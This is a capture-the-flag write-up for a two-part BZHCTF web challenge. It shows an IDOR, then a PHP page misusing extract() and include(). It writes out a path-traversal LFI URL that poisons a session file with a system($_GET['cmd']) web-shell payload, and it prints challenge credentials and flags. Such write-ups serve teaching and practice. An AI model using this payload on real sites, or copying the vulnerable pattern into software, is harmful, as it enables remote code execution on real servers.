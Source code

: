 # Les crèmes de Mamie Loic (1/2)
The first challenge was an IDOR.  
We have to get the basket of the user `mamie`, so we can just change `/api/getbasket?name=YOUR_USER` to `/api/getbasket?name=mamie` and get the flag : `https://les-cremes-de-madame-loic.ctf.bzh:21000/api/getbasket?name=mamie`  
```
La recette secrete est composee de :
- Lait
- Un maximum de BZHCTF{m4m13_n4_p4s_4ppr1s_d3_c3s_3err3urs!!}
- Caramel
Il faudra aussi penser a mettre des images pour les produits et a gerer la migration de base de donnees, l'implémentation a commencé ici : /mamiesecret
Pour se faire, n'oublie pas d'utiliser les identifiants suivants :
- mamiemanager / sxEpnMggi8LtD1y198Iy
```


# Les crèmes de Mamie Loic (2/2)
We now have the credentials for the user `mamiemanager` and the knowledge of the endpoint `/mamiesecret`.  
Here is the source code :  
```php
  1 <?php
  2 session_start();
  3 if(!isset($_SESSION["name"]) && $_SESSION["name"] !== "mamiemanager")
  4 {
  5     header("Location: /");
  6     die();
  7 }
  8
  9 extract($_GET);
 10
 11 if(isset($page)) include("pages/".$page);
 12 else include("pages/factures.php");
 13
 14 if(isset($source))
 15 {
 16     die(show_source($_SERVER["SCRIPT_FILENAME"]));
 17 }
 18 ?>
```

This is the documentation of the function `extract` :  
```
extract — Import variables into the current symbol table from an array

Warning
Do not use extract() on untrusted data, like user input (e.g. $_GET, $_FILES).
```
:)  
The LFI at the line 11 is obvious.  
We can exploit the call to `extract` to overwrite `$_SERVER["SCRIPT_FILENAME"]` and get an arbitrary file read, but it won't be useful here.  
With the LFI, we can include file in `/proc/self/fd/` which contains the list of files opened by the current process.  
With a bit of bruteforce we find the session file at `/proc/self/fd/10`. The variable `name` is already there, we can use the call to `extract` to overwrite it and insert some php code : `https://les-cremes-de-madame-loic.ctf.bzh:21000/mamiesecret?page=../../../../../../../../../../../../proc/self/fd/10&_SESSION[name]=<?php echo system($_GET["cmd"]);?>&cmd=id`

`BZHCTF{m4m13_4ur41t_du_3ng4g3r_un3_p3rs0nn3_plus_comp3t3nt3s!!}`
